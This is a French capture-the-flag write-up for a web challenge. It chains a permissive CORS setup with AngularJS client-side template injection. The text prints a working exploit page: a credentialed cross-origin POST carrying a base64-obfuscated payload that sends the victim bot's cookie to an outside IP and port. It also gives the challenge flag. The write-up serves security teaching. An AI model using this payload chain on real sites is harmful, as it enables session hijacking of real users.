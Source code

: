# OwnForm

## Solve

Dans ce challenge, il y a un simple formulaire, ou on peut indiquer nos informations, et les envoyer au serveur, néanmoins, si l'on prête attention aux sources du challenge, on remarque ceci dans le seveur :

```js
app.use((req, res, next) => {
    res.header('Access-Control-Allow-Origin', req.headers.origin);
    res.header('Access-Control-Allow-Headers', 'Origin, X-Requested-With, Content-Type, Accept, Cookie');
    res.header('Access-Control-Allow-Credentials', true);
    next();
});
```

Ici, les CORS sont trop permissives, cela veut dire que l'on peut envoyer une requete POST au serveur depuis une autre origine (en utilisant fetch/XMLHttpRequest) et qu'elle sera acceptée.

De plus, lorsqu'on envoi un formulaire, beaucoup d'erreurs sont gérées, notamment celle lorsqu'un département n'existe pas :

```js
req.session.error = "Le département " + req.body.departement + " n'existe pas.";
```

On controle donc ici le département, mais si l'on injecte `<img src=x>`, on voit que cela est affiché (littéralement) sur le site web.

En effet, dans le frontend, on remarque l'utilisation de AngularJS, qui sanitize automatiquement le DOM. Néanmoins, notre input est refléchie comme ceci :

```html
[...]
<div class="container" ng-controller="FormController">
    <p><%= data?.error %></p>
    <p><%= data?.success %></p>
    <h2>Remplir le formulaire</h2>
</div>
[...]
```

Ici, il est possible d'exploiter une CSTI (Client Side Template Injection), on peut prendre une payload assez classique pour exécuter du javascript :

```js
{{constructor.constructor('alert(1)')()}}
```

On va donc chercher ici à voler le cookie du bot qui visitera notre page.

Il y a un problème, c'est que la XSS est le résultat d'une requête POST, et qu'elle est réfléchie après, on va donc aussi utiliser l'abus des CORS pour exploiter cela :

```html
<iframe id="iframe" src="https://localhost/"></iframe>
<script>
    $("iframe").ready(function() {
        const formData = new URLSearchParams();
        formData.append('email', 'a@a.fr');
        formData.append('nom', 'a');
        formData.append('prenom', 'a');
        formData.append('departement', '{{constructor.constructor("eval(atob(\'d2luZG93LmxvY2F0aW9uLmhyZWY9J2h0dHA6Ly8xMC41MC4yLjc3OjMwMDAyLz9kYXRhPScrYnRvYShkb2N1bWVudC5jb29raWUp\'))")()}}');
        fetch("https://localhost/submit-form", {
        method: "POST",
        redirect: "manual", //fetch follow 302 redirects, must be set to manual to execute the XSS
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: formData,
        credentials: "include" //include is required here for firefox/chrome/... to send the cookie
        })
        .then(response => {
            document.location.href = "https://localhost/";
        })
        .catch(error => {
            console.error('There was a problem with the fetch operation:', error);
        });
    });
</script>
```

Ici, on ouvre une `iframe` avant car dans le code on remarque que si l'on a pas visité la page en GET, alors le serveur, au moment d'une requête POST, répondra "Requête invalide".

Vous trouverez le serveur web permettant d'héberger l'exploit dans `script/`.

On l'envoi au bot et on récupère le flag !

## Flag

BZHCTF{s3lf_xss_c4n_b3_3xpl0it4bl3}